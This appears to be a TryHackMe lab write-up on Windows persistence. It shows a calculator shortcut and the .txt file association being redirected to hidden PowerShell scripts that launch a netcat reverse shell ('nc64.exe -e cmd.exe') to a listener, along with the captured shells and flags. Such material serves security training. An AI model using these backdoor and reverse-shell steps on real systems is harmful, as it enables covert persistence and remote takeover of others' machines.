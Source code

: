 # Shortcut Files
1. Started up this room's machine
2. Opened up the compromised Windows machine's calculator properties

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Calculator%20New%20Properties.png)

![]()

3. `PowerShell`
```PowerShell
C:\Users\Administrator>PowerShell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>
```
4. `$scriptPath = 'C:\Windows\System32\<SCRIPT NAME>.ps1'`
5. `$scriptContent = @"`
6. `Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe <MACHINE IP> <PORT NUMBER>"`
7. `C:\Windows\System32\calc.exe`
8. `"@` 
9. `Set-Content -Path $scriptPath -Value $scriptContent`
```PowerShell
PS C:\Users\Administrator> $scriptPath = 'C:\Windows\System32\BackdoorScript.ps1'
>> $scriptContent = @"
>> Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.10.210.65 9999"
>> C:\Windows\System32\calc.exe
>> "@
>> Set-Content -Path $scriptPath -Value $scriptContent
>>
```
5. Change the calculator's icon and shortcut properties to 'powershell.exe -WindowStyle hidden C:\Windows\System32\<SCRIPT NAME>.ps1'

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Calculator%20Properties%20Zoomed%20In.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Calculator%20New%20Properties.png)

6. `nc -lvnp <PORT NUMBER>`
```Bash
root@ip-10-10-210-65:~# nc -lnvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
7. Click on the calculator

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Backdoor%20Script%20Executed%20.png)

```Bash
root@ip-10-10-210-65:~# nc -lnvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.105.224 49982 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
8. `C:\flags\flag5.exe`
```PowerShell
C:\Windows\system32>C:\flags\flag5.exe
C:\flags\flag5.exe
THM{NO_SHORTCUTS_IN_LIFE}
```


**TASK COMPLETED**

# Hijacking File Associations
1. Started this room's machine
2. `regedit`
```PowerShell
C:\Users\Administrator>regedit
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit%20.txt.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit%20.txt%20Zoomed%20In.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit%20.txt%20pt%202.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit%20.txt%20pt%202%20Zoomed%20In.png)

3. `PowerShell`
```PowerShell
C:\Users\Administrator>PowerShell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>
```
4. `$scriptPath = 'C:\Windows\System32\<SCRIPT NAME>.ps1'`
5. `$scriptContent = @"`
6. `Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe <MACHINE IP> <PORT NUMBER>"`
7. `C:\Windows\system32\NOTEPAD.EXE $args[0]`
8. `"@` 
9. `Set-Content -Path $scriptPath -Value $scriptContent`
```PowerShell
PS C:\Users\Administrator> $scriptPath = 'C:\Windows\System32\BackdoorScript.ps1'
>> $scriptContent = @"
>> Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.10.173.81 9999"
>> C:\Windows\system32\NOTEPAD.EXE $args[0]
>> "@
>> Set-Content -Path $scriptPath -Value $scriptContent
PS C:\Users\Administrator>
```
10. Change value data to `powershell.exe -WindowStyle hidden C:\Windows\System32\<SCRIPT FILE>.ps1 %1`

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Default%20Value%20Data.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/New%20Value%20Data.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/New%20Value%20Data%20pt2.png)

11. `nc -lvnp <PORT NUMBER>`
```Bash
root@ip-10-10-173-81:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```

12. Open any text file

![]()

```Bash
root@ip-10-10-173-81:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.141.70 49905 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>
```
13. `C:\flags\flag6.exe`
```PowerShell
C:\Users\Administrator\Desktop>C:\flags\flag6.exe
C:\flags\flag6.exe
THM{TXT_FILES_WOULD_NEVER_HURT_YOU}
```


**TASK COMPLETED**
